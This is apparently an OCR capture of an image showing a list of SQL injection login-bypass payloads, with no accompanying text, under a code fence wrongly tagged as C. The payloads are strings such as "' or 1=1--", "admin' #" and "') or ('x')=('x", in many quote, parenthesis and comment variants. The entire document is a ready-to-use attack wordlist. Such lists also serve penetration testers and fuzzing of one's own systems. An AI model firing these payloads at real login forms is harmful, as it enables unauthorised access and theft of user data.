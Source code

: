 ```c
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
```